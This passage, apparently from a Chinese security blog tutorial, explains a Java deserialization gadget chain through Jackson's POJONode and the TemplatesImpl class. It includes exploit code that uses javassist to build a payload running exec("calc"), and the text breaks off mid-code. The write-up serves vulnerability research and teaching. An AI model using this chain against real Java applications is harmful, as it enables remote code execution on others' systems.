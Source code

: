 ```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;

public class Demo {
    public static void main(String[] args) {
        User user = new User();
        POJONode jsonNodes = new POJONode(user);
        jsonNodes.toString();
    }
}
```

[![](assets/1701606625-3fe9c8e32f8da2abd50edb85b412f7dc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153427-3dd37a28-82c0-1.png)

### 利用链

我们的`POJONode`​是继承`ValueNode`​的 `ValueNode`​是继承`BaseJsonNode`​的

而在`BaseJsonNode`​中存在

```plain
Object writeReplace() {
        return NodeSerialization.from(this);
    }
```

意味着 我们在反序列化的时候 会经过这个 writeReplace 方法 这个方法会对我们的序列化过程进行检查 从而阻止我们的序列化进程 我们需要将其重写出来 将这个方法去掉

[![](assets/1701606625-0bb28de18917d5838e9f7be64c6a87bc.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231114153459-50c62996-82c0-1.png)

这样我们就可以进行序列化进程了

### TemplatesImpl 链

```plain
package tongsha;

import com.fasterxml.jackson.databind.node.POJONode;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import javassist.ClassPool;
import javassist.CtClass;
import javassist.CtConstructor;


import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.*;
import java.lang.reflect.Field;
import java.net.URI;
import java.security.*;
import java.util.Base64;

public class TemplatesImplChain {
    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass ctClass = pool.makeClass("a");
        CtClass superClass = pool.get(AbstractTranslet.class.getName());
        ctClass.setSuperclass(superClass);
        CtConstructor constructor = new CtConstructor(new CtClass[]{},ctClass);
        constructor.setBody("Runtime.getRuntime().exec(\"calc\");");
        ctClass.addConstructor(constructor);
        byte[] bytes = ctClass.toBytecode();
        Templates templatesImpl = new TemplatesImpl();
```